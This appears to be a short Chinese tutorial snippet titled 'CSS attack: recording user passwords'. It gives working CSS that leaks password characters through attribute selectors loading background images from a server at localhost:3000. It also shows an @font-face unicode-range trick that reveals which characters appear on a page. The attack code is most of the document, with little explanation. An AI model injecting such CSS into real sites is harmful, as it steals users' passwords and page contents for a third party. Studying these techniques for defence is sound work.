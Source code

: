 ## CSS攻击：记录用户密码  

直接上代码：
```
input[type="password"][value$="0"] { 
    background-image: url("http://localhost:3000/0"); 
}
input[type="password"][value$="1"] { 
    background-image: url("http://localhost:3000/1"); 
}
input[type="password"][value$="2"] { 
    background-image: url("http://localhost:3000/2"); 
}
```
上面代码的意思就是如果你在密码框中输入0，就去请求http://localhost:3000/0 接口，但是浏览器默认情况下是不会将用户输入的值存储在value属性中，但是有的框架会同步这些值  


  
另一种方法：
```
@font-face {  
   font-family: blah;  
   src: url('http://localhost:3000/a') format('woff');  
   unicode-range: U+85;
}
html {  
   font-family: blah, sans-serif;
}
```
使用的的css的简单的字体库，只要你的页面中包含a，就会去请求http://localhost:3000/a ，这样就能知道你的页面中包含有a字符。